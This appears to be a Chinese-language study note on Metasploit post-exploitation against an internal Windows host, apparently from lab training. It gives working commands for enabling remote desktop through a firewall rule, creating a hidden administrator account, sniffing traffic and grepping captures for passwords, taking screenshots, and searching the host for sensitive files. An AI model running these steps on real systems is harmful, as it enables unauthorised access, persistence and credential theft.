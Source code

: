 # 内网主机操作

## 远程桌面

获取权限后可以开启远程桌面。

run getgui -e

### 开启3389服务

win2k8默认不开启3389服务

`netsh advfirewall firewall add rule name="rdp" dir=in protocol=TCP  localport=3389 action=allow`

## 进入shell新建超级管理员用户

`net user aaa 123456qwe. /add`

`net localgroup administrators aaa /add`

### 远程连接

另开一个终端执行连接

rdesktop 172.16.0.100

登录新建的用户即可

![](C:\Users\Aurora\OneDrive\桌面\Metasploit\24.0.0.png)



## 数据包流量嗅探

在获取会话后可以对内网的数据包进行嗅探，通常使用`sniffer`插件进行。

`sniffer_dump        Retrieve captured packet data to PCAP file
    sniffer_interfaces  Enumerate all sniffable network interfaces//查看嗅探的网卡
    sniffer_release     Free captured packets on a specific interface instead of downloading them//清空数据包
    sniffer_start       Start packet capture on a specific interface
    sniffer_stats       View statistics of an active capture
    sniffer_stop        Stop packet capture on a specific interface`

### sniffer_interfaces查看网卡,发现存在三张网卡。

`1 - 'WAN Miniport (Network Monitor)' ( type:3 mtu:1514 usable:true dhcp:false wifi:false )
2 - 'Intel(R) PRO/1000 MT Network Connection' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
3 - 'Intel(R) PRO/1000 MT Network Connection' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )`

### sniffer_start 3开启网卡一数据包抓取。

`Capture started on interface 1 (50000 packet buffer)`捕获50000个数据包，超过会自定暂停。

### sniffer_stats 3 查看3嗅探的数据包量

`Capture statistics for interface 3
	packets: 4
	bytes: 340`

### sniffer_dump 网卡 本地地址保存嗅探的数据包

### wireshark数据包分析

### tshark -r 文件路径 | grep PASS



## 屏幕截图screengrab

同样实在获取会话后进行的

screengrab -h查看帮助

## 主机敏感信息防御

获取会话后可以进行文件的搜索

search相关的命令，命令可以复合使用。

` -a   Find files modified after timestamp (UTC).  Format: YYYY-mm-dd or YYYY-mm-ddTHH:MM:SS
    -b   Find files modified before timestamp (UTC). Format: YYYY-mm-dd or YYYY-mm-ddTHH:MM:SS
    -d   The directory/drive to begin searching from. Leave empty to search all drives. (Default: )//搜索指定路径
    -f   A file pattern glob to search for. (e.g. *secret*.doc?)//确定文件格式的搜索
    -h   Help Banner
    -r   Recursively search sub directories. (Default: true)//`

